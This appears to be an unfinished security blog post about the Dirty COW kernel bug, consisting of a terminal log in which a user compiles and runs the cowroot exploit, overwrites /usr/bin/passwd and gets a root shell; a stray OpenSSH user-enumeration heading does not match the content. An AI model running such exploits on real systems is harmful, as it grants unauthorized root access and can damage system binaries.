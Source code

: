 Title:CVE 2016-XXX dirtycow
Date: 10-31-2016 12:45
category:security
tags:cve, security, exploit, test
meta:cve, security, exploit, test

SUMMARY TODO

<!-- PELICAN_END_SUMMARY -->

## OpenSSHD <= 7.2p2 - User Enumeration

[maggick@computer_name dirtycow]$ gcc cowroot.c -o cowroot -pthread
cowroot.c: In function ‘procselfmemThread’:
cowroot.c:107:17: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [-Wint-conversion]
         lseek(f,map,SEEK_SET);
                 ^~~
In file included from cowroot.c:27:0:
/usr/include/unistd.h:337:16: note: expected ‘__off_t {aka long int}’ but argument is of type ‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^~~~~
cowroot.c: In function ‘main’:
cowroot.c:144:5: warning: implicit declaration of function ‘asprintf’ [-Wimplicit-function-declaration]
     asprintf(&backup, "cp %s /tmp/bak", suid_binary);
     ^~~~~~~~
cowroot.c:148:5: warning: implicit declaration of function ‘fstat’ [-Wimplicit-function-declaration]
     fstat(f,&st);
     ^~~~~
[maggick@computer_name dirtycow]$ ./co
cowroot       cowroot_32    cowroot_32.c  cowroot.c     
[maggick@computer_name dirtycow]$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 47224
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
[root@computer_name dirtycow]# id
uid=0(root) gid=1000(maggick) groups=1000(maggick)

